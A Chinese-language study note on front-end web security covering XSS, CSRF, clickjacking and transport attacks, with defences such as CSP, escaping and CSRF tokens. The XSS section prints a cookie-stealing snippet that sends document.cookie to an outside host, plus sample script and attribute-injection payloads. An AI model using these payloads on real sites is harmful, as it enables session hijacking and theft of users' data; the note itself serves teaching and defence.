 # 前端常见安全问题

## xss cross-site-scripting 跨站脚本攻击
> 评论的时候，直接把用户的输入展示到前端，如果此时用户输入 script src="自己的js地址，那么此时就会形成攻击"，
1. 获取cookies,
2. 获取 页面数据，
3. 劫持前端逻辑
4. 发送请求
```
var img = document.createElement('img');
img.width=0;
img.height=0;
img.src="http://debugs.cn/getcookie?cookies=" + document.cookie
``` 
#### xss攻击分类
1. 反射型，url带过来的。比如url是www.baidu.com?from=<script src="xxx"></script>
2. 存储型，用户提交数据，保存到数据库，其他用户访问的时候读取出来形成攻击

#### 攻击方式
1. html内容攻击，直接把用户输入的数据作为html直接插入
2. 属性攻击，比如 \<img src="1 【"onerror="http://www.debugs.cn?】">，【】内的内容是用户输入的
3. 富文本

#### 防御方式
1. [csp content security police](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP),内容安全策略来防御 
2. 浏览器自带的防御机制，可以防御反射性攻击， 
3. 将用户输入的数据在展示前进行转义，将尖括号，引号，空格
4. 富文本白名单，将富文本用cheerio转为dom树，对所有表情转义,[xss npm 包](https://github.com/leizongmin/js-xss/blob/master/README.zh.md)

## csrf cross site request forgy 跨站请求伪造
#### 防御方式
1. samesite，大部分浏览器不支持
2. [ccap](https://www.npmjs.com/package/ccap) 网站提交数据的时候加入验证码 
3. token + csrftoken
4. referer判断

## 点击劫持
1. top !== window top.loation.href = window.location.href
2. X-Frame-Options

## 传输安全
1. http中间人攻击 switchhost
2. 路由器 代理服务器 运营商劫持
3. traceroute www.baidu.om
4. curl -o www.baidu.com



